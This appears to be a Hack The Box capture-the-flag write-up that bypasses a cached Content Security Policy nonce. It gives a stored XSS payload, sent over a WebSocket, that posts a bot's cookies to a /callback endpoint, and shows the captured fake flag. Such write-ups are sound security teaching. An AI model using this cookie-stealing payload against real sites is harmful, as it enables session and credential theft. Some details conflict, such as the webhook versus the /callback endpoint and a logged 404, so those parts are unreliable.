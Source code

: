 ```yaml
---
title: Cursed Stale Policy - Hack The Box
date: 2024-12-27
---
```


# Cursed Stale Policy

![Cursed Stale Policy - thumbnail](/ctf/hack-the-box/challenges/web/cursed-stale-policy/thumbnail.gif){style="width: 250px; height: 250px; display: block; margin: 0 auto"}

## Challenge Description

Spying time. Check what all users have been up to with this Challenge recently.

## Challenge Overview

In this web challenge, the web application includes functionality that leverages user-provided inputs and interacts with
a bot to validate and process specific behaviors. Upon navigating the application, we observe a page with the ability to
send inputs that are reflected within the application context. Additionally, a Content Security Policy (CSP) header is
enforced to prevent certain classes of script-based attacks.

A notable endpoint is `/ws`, which serves as a WebSocket interface for interacting with the server. The server's
functionality hints at integration with a bot that periodically processes inputs, such as scripts embedded within the
application.

![Cursed Stale Policy - Overview](/ctf/hack-the-box/challenges/web/cursed-stale-policy/overview.png)

## Code Review

Upon reviewing the source code, we identify several crucial components:

### Content Security Policy (CSP)

```js
export async function getCachedCSP() {
    let cachedCSP = await redis.get("cachedCSPHeader");

    if (cachedCSP) {
        return cachedCSP; // TOOD: Should we cache the CSP header?
    } else {
        const nonce = crypto.randomBytes(16).toString("hex");
        const cspWithNonce = `default-src 'self'; script-src 'self' 'nonce-${nonce}'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; object-src 'none'; base-uri 'none'; report-uri /csp-report`;

        await redis.set("cachedCSPHeader", cspWithNonce);

        return cspWithNonce;
    }
}
```

In the above code we see this line:

```js
const nonce = crypto.randomBytes(16).toString("hex");
```

Who generates a random nonce for the first time and caches it in the Redis database. This nonce is then used in the CSP
header to allow only scripts with the matching attribute to execute.

The generate `nonce` value is given in the index page as shown below:

![Cursed Stale Policy - nonce](/ctf/hack-the-box/challenges/web/cursed-stale-policy/nonce.png)

### WebSocket Functionality

The WebSocket handler (`websocket.js`) allows sending structured messages. Of particular interest is the `trigger_xss`
message type, which adds user-provided payloads to a queue for subsequent execution by the bot. This mechanism is
designed to evaluate scripts and validate specific functionality.

### Bot Behavior

The bot (`bot.js`) operates as follows:

1. Visits the `/xss` endpoint to execute XSS payloads fetched from Redis.
2. Includes a cookie containing the contents of `flag.txt` as a `flag` value when executing scripts.
3. Executes the provided payload, enabling potential exfiltration of sensitive data.

These components reveal that while CSP is designed to mitigate XSS attacks, the presence of the `trigger_xss` queue
creates an opportunity to exploit a stored XSS vulnerability if a valid payload adheres to CSP constraints.

## Exploitation

### Objective

Leverage the bot's behavior to retrieve the contents of `flag.txt` by bypassing the CSP.

### CSP Constraints Analysis

The CSP header requires all scripts to include a `nonce` attribute with the value `rAnd0m123` to execute. This
constraint prevents traditional inline script-based attacks but still allows exploitation if the `nonce` is included in
the payload.

### Exploitation Steps

#### Step 1: Crafting the Payload

**Payload:**

```html

<script nonce='rAnd0m123'>
    fetch('/callback', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ cookies: document.cookie })
    });
</script>
```

This payload who be executed by the bot and send the cookies to the `/callback` endpoint. The `nonce` attribute is
included to bypass the CSP constraints.

#### Step 2: Injecting the Payload

To inject the payload, send the following WebSocket message to the `/ws` endpoint:

```json
{
    "type": "trigger_xss",
    "payload": "<script nonce='rAnd0m123'>fetch('/callback', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ cookies: document.cookie })});</script>"
}
```

Using **Burp Suite Repeater**, send this payload to the WebSocket endpoint. This message queues the payload for the bot
to execute.

#### Step 3: Observing the Results

Once the payload is executed by the bot, the flag will be sent to the WebHook URL specified in the payload.

Example response in the WebHook site:

```json
{
    "type": "update_logs",
    "payload": [
        {
            "method": "POST",
            "headers": {
                "host": "127.0.0.1:8000",
                "connection": "keep-alive",
                "content-length": "101",
                "user-agent": "HackTheBoo/20.24 (Cursed; StalePolicy) CSPloitCrawler/1.1",
                "content-type": "application/json",
                "accept": "*/*",
                "origin": "http://127.0.0.1:8000",
                "sec-fetch-site": "same-origin",
                "sec-fetch-mode": "cors",
                "sec-fetch-dest": "empty",
                "referer": "http://127.0.0.1:8000/xss",
                "accept-encoding": "gzip, deflate, br, zstd",
                "accept-language": "en-US,en;q=0.9",
                "cookie": "flag=HTB{f4k3_fl4g_f0r_t35t1ng}"
            },
            "args": {},
            "data": {
                "flag": "{\"message\":\"Route GET:/flag.txt not found\",\"error\":\"Not Found\",\"statusCode\":404}"
            },
            "time": "2024-12-26T18:15:15.459Z"
        }
    ]
}
```

We successfully retrieved the fake flag:

```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We can now use the same technique to get the real flag.

![Cursed Stale Policy - pwned](/ctf/hack-the-box/challenges/web/cursed-stale-policy/pwned.png)

## Reference

- [Content Security Policy (CSP) Documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [Puppeteer Documentation](https://pptr.dev/)
- [WebSocket Basics](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API)
- [OWASP XSS Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

![Cursed Stale Policy - favicon](/ctf/hack-the-box/challenges/web/cursed-stale-policy/favicon.png){style="width: 250px; height: 250px; display: block; margin: 0 auto;"} 
